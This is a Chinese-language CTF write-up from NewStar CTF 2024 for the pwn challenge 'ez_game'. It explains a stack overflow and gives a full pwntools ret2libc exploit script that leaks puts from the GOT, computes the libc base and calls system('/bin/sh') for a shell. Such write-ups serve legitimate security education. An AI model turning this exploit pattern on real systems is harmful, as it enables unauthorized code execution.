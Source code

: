 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# ez_game

![func 函数](/assets/images/wp/2024/week2/ez-game_1.png)

明显的栈溢出且没有后门函数

再 checksec 一下，没有开启 pie

![checksec 的结果](/assets/images/wp/2024/week2/ez-game_2.png)

直接打 ret2libc<span data-desc>（但是得进行栈对齐）</span>

1. 先通过 puts 泄露出 puts 地址，通过 puts 地址与 libc 基地址的偏移得到 libc 基地址，并返回 `main` 函数进行第二次溢出，实现 getshell
2. 构建 `system("/bin/sh")` 取 shell

:::tip 提示
可以用 ret 地址进行栈对齐
:::

EXP:

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

ifremote = 0
if ifremote == 1:
    io = remote('0.0.0.0', 9999)
else:
    io = process('./attachment')

elf = ELF('./attachment')
# libc=ELF("./libc-2.31.so")
libc = elf.libc

# gdb.attach(io)
# pause()

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x0000000000400509

payload = b'a'*0x58+p64(0x0000000000400783)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.sendline(payload)
io.recvuntil(b'\x0a')
puts_addr = u64(io.recv(6).ljust(8, b'\x00'))
print("puts_addr======================>", hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
system_addr = libc_base+libc.sym['system']
bin_sh_addr = libc_base+0x1b45bd

payload = b'a'*0x58+p64(0x0000000000400783)+p64(bin_sh_addr)+p64(ret_addr)+p64(system_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.send(payload)

io.interactive()
```
